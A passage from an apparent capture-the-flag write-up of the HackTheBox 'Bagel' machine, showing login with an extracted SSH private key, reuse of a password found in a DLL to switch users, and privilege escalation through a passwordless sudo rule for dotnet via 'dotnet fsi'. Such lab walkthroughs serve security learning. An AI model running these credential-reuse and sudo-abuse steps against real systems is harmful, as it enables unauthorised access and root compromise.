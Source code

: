 I was able to extract the private ssh key for a user phil but output is messy so lets fix it by copying the private key to a id_rsa file and editing with vim, next type this command to replace all the occurances of “\n” with the newline.

```
:%s/\\n/\r/g
```

After that we finally get access to the system as user phil.

```bash
┌──(kali㉿kali)-[~/hackthebox/Bagel]
└─$ sudo ssh -i id_rsa phil@bagel.htb
[sudo] password for kali: 
Last login: Thu Feb 23 19:12:25 2023 from 10.10.14.5
[phil@bagel ~]$ ls
user.txt
```

Now i know there was a password in the source of the bagel.dll for user “dev” so lets try it now.

```bash
[phil@bagel ~]$ su developer
Password: 
[developer@bagel ~]$
```

And it does we now moved horizontally on the system.

Running the “sudo -l” command to see if we can run something as root and it shows us that we can run dotnet as root.

```bash
[developer@bagel ~]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

After googling around for endless hours finally managed to understand what is happening :))))

So since as developer user we can run dotnet as root I was able to stubmle upon a F#(fsharp) scripting language that is basically an interactive language for dotnet and after trying and searching for hours I was able to read any file root user owns. You could probably make a reverse shell or even execute system commands but I might look into that some other day.

To start an interactive fsi we run this command:

```bash
[developer@bagel phil]$ sudo dotnet fsi
```
